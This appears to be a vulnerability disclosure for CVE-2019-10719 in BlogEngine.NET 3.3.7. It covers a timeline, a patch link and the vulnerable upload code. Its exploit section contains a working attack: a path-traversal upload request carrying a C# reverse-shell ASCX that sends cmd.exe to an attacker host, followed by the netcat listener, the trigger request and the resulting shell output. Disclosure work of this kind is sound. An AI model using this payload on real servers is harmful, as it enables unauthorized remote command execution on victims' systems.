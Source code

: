 A remote code execution (RCE) vulnerability, **CVE-2019-10719**, was discovered in BlogEngine 3.3.7 and earlier.  Leveraging a path traversal in `/api/upload`, a malicious file could be written to a directory which would allow it to be accessed and executed.  **Edit post** permissions are required to upload the shell.  Anyone can trigger the shell without authentication.

### Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

### Timeline

* 30 Mar 2019 - Issue Identified
* 31 Mar 2019 - Developer contacted
* 04 Apr 2019 - Details of vulnerability sent
* 17 Jun 2019 - Public Disclosure

### Description

BlogEngine.NET allows users to upload files through the `/api/upload` endpoint.  Files uploaded using **file**, **filemgr**, or **image** as the `action` ultimately call `BlogService.UploadFile` and create the file:

~~~{command="BlogEngine/BlogEngine.NET/AppCode/Api/UploadController.cs"}
if (action == "filemgr" || action == "file")
{
    string[] ImageExtensnios = { ".jpg", ".png", ".jpeg", ".tiff", ".gif", ".bmp" };

    if (ImageExtensnios.Any(x => fileName.ToLower().Contains(x.ToLower())))
        action = "image";
    else
        action = "file";
}
<r:snip></r:snip>
if (action == "image")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = <r:b>BlogService.UploadFile(file.InputStream, fileName, dir, true);</r:b>
        return Request.CreateResponse(HttpStatusCode.Created, uploaded.AsImage.ImageUrl);
    }
}
if (action == "file")
{
    if (Security.IsAuthorizedTo(Rights.EditOwnPosts))
    {
        dir = BlogService.GetDirectory(dirName);
        var uploaded = <r:b>BlogService.UploadFile(file.InputStream, fileName, dir, true);</r:b>
        retUrl = uploaded.FileDownloadPath + "|" + fileName + " (" + BytesToString(uploaded.FileSize) + ")";
        return Request.CreateResponse(HttpStatusCode.Created, retUrl);
    }
}
~~~

The **dirPath** parameter is used to specify a folder the file will be written to.  **dirPath** is vulnerable to directory traversal, allowing files to be written to any directory.  

A malicious `PostView.ascx` can be written to a sub-directory of **/Custom/Themes**, bypassing the fix for **CVE-2019-6714**.  If the folder does not exist, it will be created and contain the malicious `PostView.ascx`.

<pagebreak></pagebreak>

### Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10719/exploit.py>

The following will upload the file to **/Custom/Themes/RCE_Test**. **RCE_Test** will be created if it does not exist:

~~~
POST /api/upload?action=filemgr&dirPath=%2f..%2f..%2fCustom%2fThemes%2fRCE_Test HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=<r:redacted>Test</r:redacted>
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;
    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<r:var>$LHOST</r:var>", <r:var>$LPORT</r:var>)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
				StringBuilder strInput = new StringBuilder();
				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
    } } } } }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
	   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                   	streamWriter.WriteLine(strOutput);
                   	streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

<pagebreak></pagebreak>

Open a `netcat` listener, `nc -nlvp $LPORT`, and browse to the application root with the **theme** set to RCE_Test.

~~~
GET /?theme=RCE_Test HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp $LPORT"}
listening on [any] <r:var>$LPORT</r:var> ...
connect to [<r:var>$LHOST</r:var>] from (UNKNOWN) [<r:var>$RHOST</r:var>] 49958
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
~~~